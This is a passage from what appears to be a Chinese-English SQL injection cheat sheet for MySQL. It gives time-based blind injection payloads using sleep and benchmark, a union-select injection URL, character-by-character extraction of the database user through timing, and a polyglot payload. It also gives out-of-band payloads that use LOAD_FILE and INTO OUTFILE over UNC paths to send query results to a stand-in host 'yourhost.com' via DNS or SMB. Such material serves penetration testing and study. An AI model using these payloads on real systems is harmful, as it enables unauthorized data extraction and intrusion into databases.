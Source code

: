 BENCHMARK(howmanytimes, do this)    

Real World Samples    
Are we root ? woot!     
`IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`  
Check Table exist in MySQL   
`IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`  

#### sleep(seconds) (M)
Sleep for supplied seconds.  

`SELECT sleep(10); `  
Sleep 10 seconds.  
`and%20(select*from(select(sleep(10)))a)--`  
注意 sleep/benchmark 函数执行完返回值是 0，故 if(now()=sysdate(),sleep(duration),0) 返回值肯定是0。    

#### More Timing in MySQL
`select benchmark( 500000, sha1( 'test' ) );`  
`query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1`  
`select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' ); `  
Enumeration data, Guessed Brute Force   
`select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1('test')), 'false' );`  
```
-if(now()=sysdate(),sleep(duration),0)/*'XOR(if(now()=sysdate(),sleep(duration),0))OR'"XOR(if(now()=
sysdate(),sleep(duration),0))OR"*/
```    
上面这条payload 在参数是 数字或者字符串（单双引号）的情形下都是适用的。    

```
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse(extractvalue(rand(),
concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1)))),1)  
```
上面这条用于 order by limit 之后的timing注入，注意这里不能用sleep函数。  
 
#### Out of Band Channel Attacks
原理：使用unc路径，会对指定的域名进行dns查询，使用dns信道，配合dns服务器收到的数据可快速得到数据内容。    
使用dns有一定的好处，可以突破主机网络隔离，例如dmz主机不能直接连外网，但是配置的网络可达的dns服务器往往可以，通过查询域名递归的方式，dns服务器可以将返回数据通过dns协议带出去。    
unc路径是windows下的特性，默认安装的linux下不存在这样的功能。    
![](../pictures/sqlmap15.png)    
1）受害主机执行一条特定payload语句，将数据和指定域名拼接，向dns server发送dns请求    
2）dns server因为没有记录这个域名所对应的ip，递归向上层dns server请求    
3）直到递归请求到有这个根域名记录的根dns server（一般为域名注册商），返回给最初的dns server可以去找这个代号为2的dns server解析    
4）这个代号为2的dns server是hacker伪造的，所以hacker可以收到传过来的dns请求，从中剥离数据    

`?vulnerableParam=-99 OR (SELECT LOAD_FILE(concat('\\\\',({INJECTION}), '.yourhost.com\\'))) `  
Makes a NBNS query request/DNS resolution request to yourhost.com  

`?vulnerableParam=-99 OR (SELECT ({INJECTION}) INTO OUTFILE '\\\\yourhost.com\\share\\output.txt')`  
Writes data to your shared folder/file  

{INJECTION} = You want to run the query.  
  
查版本：  
 